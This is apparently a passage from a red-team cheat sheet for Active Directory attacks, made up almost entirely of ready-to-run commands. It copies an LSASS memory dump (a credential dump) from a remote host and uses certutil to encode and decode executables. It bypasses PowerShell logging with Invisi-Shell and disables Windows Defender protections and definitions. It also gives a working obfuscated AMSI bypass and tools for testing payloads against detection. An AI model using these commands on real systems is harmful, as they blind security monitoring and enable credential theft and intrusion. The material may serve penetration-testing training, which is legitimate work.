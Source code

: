     # File Transfer using shared drive
    echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp

    # Base 64 encode and decode
    certutil -decode foo.b64 foo.exe
    certutil -encode foo.exe foo.b64

    ```

    ### Bypassing Endpoint Security, Applocker and Powershell Logging

    ```powershell
    1. Powershell Logging
    # Use Invisi-Shell to bypass powershell logging (has inbuild AMSI evasion)
    # NOTE: Invisi-Shell may interfere with some process like Saftelykatz, use Loader.exe for such cases

    # With Admin Rights
    C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
    # Without Admin Rights (modifies registry entries, and is recommended method)
    C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

    2. AV Evasion

    # Disable Windows Defender & AMSI bypass script
    Get-MPPreference
    Set-MPPreference -DisableRealTimeMonitoring $true
    Set-MpPreference -DisableIOAVProtection $true
    "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

    # AMSI Bypass - Bypass defender
    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

    # Use AMSI Trigger and DefenderCheck
    cmd> AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke\PowerShellTcp_Detected.ps1
    cmd> DefenderCheck.exe PowerUp.ps1
